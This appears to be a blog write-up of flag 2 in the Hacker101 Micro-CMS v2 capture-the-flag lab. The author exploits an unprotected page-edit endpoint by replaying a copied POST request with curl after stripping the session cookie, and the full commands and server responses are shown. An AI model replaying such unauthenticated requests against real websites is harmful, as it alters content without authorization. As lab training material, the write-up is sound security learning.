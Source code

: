 ```yaml
---
title: Hacker 101 CTF Micro-CMS v2 - Flag 2
published: true
---
```


Following on from [flag 1](https://ruddles.github.io/Hacker101-CTF-Micro-CMS-v2-flag-1); this is a writeup of flag 2 in [Hacker 101 CTF](https://ctf.hacker101.com/) Micro-CMS v2. If you're looking to follow along then I assume you're all logged in and have hit Go on the challenge.

# Finding a vulnerability

Once I'd completed flag one I spent some time clicking around mapping out the site (that didn't take long) and doing some basic dir busting to see if I could find anything interesting. Long story short there, I didn't find anything of note, so back to looking at the obvious pages.

I dug around in the markdown section seeing if there was any injection points I could attack (there's a good post on some attack vectors [here](https://medium.com/taptuit/exploiting-xss-via-markdown-72a61e774bf8)), but it looks like this time around there was some decent input sanitisation going on. Another dead end.

So, going back to clicking around the site I had a thought. We can see the get requests are protected with a login page, what about the post requests. There's 2 on the site, one for creating a page and one for editing it.

# Posting to Create

Usually I'd do something like this with burp suit however I'm currently trying out kali on WSL2, so until later this year there's no easy way to get UI up and running. Instead I'm browsing in windows and using the tools in the WSL2 instance. So no burp, instead just the network tab in chrome.

The first thing to do is to log in (see my previous post on how to do this) and navigate to the create page at `/page/create/`. Open the dev tools in chrome (F12) and go to the network tab. I usually tick the "Preserve log" option at the top so redirects don't wipe the results out. Finally fill in some details and submit the page.

Now we have a payload we can right click on the post in the network tab and select "Copy as cURL (bash)"

![Create page]({{ site.url }}/assets/post-images/h101-cms-v2/CreatePage.png)

Now I tend to paste this into a text editor (I use vscode for everything) to make editing a bit easier. All we need to do is delete the line starting `-H 'Cookie:` so we're no longer logged in on the request and paste it into the terminal and hit enter:

```bash
curl 'http://35.190.155.168/90bf00b6e6/page/create' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Origin: http://35.190.155.168' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Sec-GPC: 1' \
  -H 'Referer: http://35.190.155.168/90bf00b6e6/page/create' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw 'title=Test&body=Something+in+here' \
  --compressed \
  --insecure
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to target URL: <a href="/login">/login</a>.  If not click the link.%
```

Nope, that's protected. Moving on....

# Editing a page

Just like before: we're logged in, create the request, copy it, remove the cookie line and paste it into the terminal:

```bash
curl 'http://35.190.155.168/bf98748dfa/page/edit/4' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Origin: http://35.190.155.168' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Sec-GPC: 1' \
  -H 'Referer: http://35.190.155.168/bf98748dfa/page/edit/4' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  --data-raw 'title=test&body=something+else+in+here' \
  --compressed \
  --insecure
^FLAG^FLAG_HASH_HERE$FLAG$%
```

And that gives us a flag. Looks like the edit page wasn't correctly protected. One more flag to go on this challenge.

Any comments or suggestions? Chat with me on [twitter](https://twitter.com/RuddlesDev)
